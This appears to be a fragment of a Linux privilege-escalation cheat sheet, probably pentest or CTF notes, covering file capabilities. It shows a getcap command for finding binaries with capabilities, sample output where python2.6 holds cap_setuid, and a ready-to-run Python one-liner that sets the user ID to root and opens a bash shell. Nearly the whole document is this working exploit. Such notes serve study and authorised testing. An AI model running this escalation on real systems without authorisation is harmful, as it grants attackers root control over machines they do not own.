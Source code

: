  ### Capabilities 
 
 ## Type Command
 
     getcap -r / 2>/dev/null
 
 ## Output
 
 /usr/bin/python2.6 = cap_setuid+ep
    
 ## Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
